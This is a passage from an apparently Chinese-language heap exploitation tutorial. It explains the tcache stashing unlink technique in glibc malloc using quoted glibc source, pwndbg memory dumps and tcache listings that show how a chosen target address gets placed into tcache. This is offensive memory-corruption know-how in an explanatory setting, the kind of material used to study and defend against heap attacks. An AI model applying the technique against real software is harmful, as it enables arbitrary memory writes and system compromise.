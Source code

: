 ```
`{`
          if (tc_victim != 0)
            `{`
              bck = tc_victim-&gt;bk; //bck = tag-0x10
              set_inuse_bit_at_offset (tc_victim, nb);
              if (av != &amp;main_arena)
            set_non_main_arena (tc_victim);
              bin-&gt;bk = bck; //tag - 0x10 被写在bin-&gt;bk处
              bck-&gt;fd = bin; //bin 被写在tag处
          //将 bin 的 bk 指向 tc_victim 的后一个 Chunk，将 tc_victim 后一个 Chunk 的 fd 指向 bin，即将 tc_victim 取出
              tcache_put (tc_victim, tc_idx);
                `}`
        `}`
```

```
pwndbg&gt; x/30gx 0x0000555555558050
0x555555558050: 0x0000000000000000      0x0000000000000000
0x555555558060 &lt;victim&gt;:        0x00007ffff7fbac30      0x0000555555558060
0x555555558070 &lt;victim+16&gt;:     0x0000000000000000      0x0000000000000000
```

```
pwndbg&gt; x/30gx 0x00007ffff7fbac30
0x7ffff7fbac30 &lt;main_arena+176&gt;:        0x00007ffff7fbac20      0x00007ffff7fbac20
0x7ffff7fbac40 &lt;main_arena+192&gt;:        0x0000555555559dd0      0x0000555555558050（tag - 0x10）
```

tcache 放入了 `tc_victim = 0x555555559de0`

```
(0x60)   tcache_entry[4](6): 0x555555559de0 --&gt; 0x555555559440 --&gt; 0x5555555593e0 --&gt; 0x555555559380 --&gt; 0x555555559320 --&gt; 0x5555555592c0
```

##### <a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E8%BD%AE%E7%9A%84stash%EF%BC%9A"></a>第二轮的stash：

重点攻击的是`tc_victim` 也就是目标地址。

```
pwndbg&gt; p tc_victim
$21 = (mchunkptr) 0x555555558050
```

很明显最终目标也就是保证让`tc_victim`放入tcache即可。观察代码，可以发现仅需要保证的也就是不要让程序crush。

```
if (tc_victim != 0)
            `{`
            //得保证目标地址chunk的bk为可写的指针
              bck = tc_victim-&gt;bk; //tag-0x10-&gt;bk=bck =tag+8 
              set_inuse_bit_at_offset (tc_victim, nb);
              if (av != &amp;main_arena)
            set_non_main_arena (tc_victim);
              bin-&gt;bk = bck;
              bck-&gt;fd = bin; //保证一个可写的bck，程序即可正常的执行

          //将 bin 的 bk 指向 tc_victim 的后一个 Chunk，将 tc_victim 后一个 Chunk 的 fd 指向 bin，即将 tc_victim 取出
              tcache_put (tc_victim, tc_idx);
```
